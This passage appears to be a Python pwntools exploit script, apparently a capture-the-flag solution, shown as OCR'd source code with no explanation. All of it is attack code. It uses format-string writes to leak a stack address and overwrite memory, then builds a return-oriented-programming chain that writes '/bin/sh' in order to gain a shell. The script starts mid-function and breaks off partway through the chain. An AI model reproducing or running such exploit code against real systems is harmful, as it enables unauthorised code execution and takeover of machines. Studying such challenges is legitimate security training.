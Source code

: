 ```py
        fmtstr = "%{}c%8$hn".format(address % 0x10000).encode()
        io.sendlineafter(b'Enter text: ', fmtstr)

        fmtstr = b''
        if gadget % 0x100 != 0:
            fmtstr +="%{}c".format(gadget % 0x100).encode()
        fmtstr += b"%12$hhn"
        io.sendlineafter(b'Enter text: ', fmtstr)
        gadget = gadget // 0x100
        address += 1

io = start()

rop = ROP(exe)

distance = 0x4cfb90 - 0x4ceb80 + 0x20
expands = (distance - 0x1000) // 2

payload = flat({
    0x0: expands * b'noob',
    0x1000 - 0x20: exe.sym['main'],
    }, filler = b"x")

io.sendlineafter(b'Enter text: ', payload)
io.sendlineafter(b'Enter text: ', b'a')

payload = flat({
    0x0: expands * b'noob',
    0x1000 - 0x20: exe.sym['main'],
    }, filler = b"x")

io.sendlineafter(b'Enter text: ', payload)
io.sendlineafter(b'Enter text: ', b'a')

payload = flat({
    0x0: expands * b'noob',
    0x1000 - 0x20: exe.sym['printf'],
    }, filler = b"x")

io.sendlineafter(b'Enter text: ', payload)
io.sendlineafter(b'Enter text: ', b'a')
io.sendlineafter(b'Enter text: ', b'%8$p')

stack = int(io.recvline()[:-1], 0)
io.success(hex(stack))

fmtstr = "%{}c%8$hn".format((stack + 0x28) % 0x10000).encode()
io.sendlineafter(b'Enter text: ', fmtstr)

binsh = 0x4c9000
movqword_ptrRDI_RDX = 0x000000000043bbb3

import binascii

writeGadget(stack+0x28, rop.find_gadget(['pop rdi', 'ret'])[0])
io.success("pop rdi")
writeGadget(stack+0x30, binsh)
io.success("*binsh")
writeGadget(stack+0x38, rop.find_gadget(['pop rdx', 'ret'])[0])
io.success("pop rdx")
writeGadget(stack+0x40, int(binascii.hexlify(b"/bin/sh\x00"[::-1]), 16))
io.success("\"/bin/sh\\x00\"")
writeGadget(stack+0x48, movqword_ptrRDI_RDX)
```